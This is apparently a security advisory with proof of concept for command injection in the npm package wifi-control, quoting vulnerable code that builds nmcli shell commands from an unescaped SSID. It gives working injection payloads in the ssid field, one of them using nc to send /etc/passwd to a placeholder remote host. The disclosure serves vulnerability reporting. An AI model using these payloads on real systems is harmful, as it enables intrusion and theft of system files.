 # Command Injection in wifi-control
## Basic information
Vulnerability Author: YorkLee(liyue2021@hust.edu.cn)

Vulnerable npm package: wifi-control

Npm url: https://www.npmjs.com/package/wifi-control

Github url: https://github.com/msolters/wifi-control-node

Vulnerable version: <= 2.0.1

Vulnerable file: lib/linux.js
```js
connectToAP: function(_ap) {
      var COMMANDS, _msg, com, connectToAPChain, error, error1, error2, i, len, ssidExist, stdout;
      COMMANDS = {
        "delete": "nmcli connection delete \"" + _ap.ssid + "\"",
        connect: "nmcli device wifi connect \"" + _ap.ssid + "\""
      };
      if (_ap.password.length) {
        COMMANDS.connect += " password \"" + _ap.password + "\"";
      }
      try {
        stdout = this.execSync("nmcli connection show \"" + _ap.ssid + "\"");
        if (stdout.length) {
          ssidExist = true;
        }
      } catch (error1) {
        error = error1;
        ssidExist = false;
      }
      ...
}
```
The vulnerability is in lib/linux.js, line 170. _ap.ssid is not checked.

## Payload
main.js:
```js
const WiFiControl = require('wifi-control');
const iface = WiFiControl.findInterface();
WiFiControl.connectToAP(
  {
    ssid: '" || touch hack.txt && "',
    password: "mypassword",
  },
  (err, res) => {
    console.log(res);
  }
);

// payload1: " || touch hack.txt && "
// payload2: " || nc {hostIP} {port} < /etc/passwd &&"
```
Payload1 is used to create a hack. txt file.

Payload2 is used to transfer files to remote servers.

Payload located in ssid can execute almost all commands.
## Exploit
Environment: Ubuntu

Attention: ensure that your wireless network device name contains "wlan".

![Alt text](image.png)

You just run following commands to expolit:
```
npm i
npm start
```
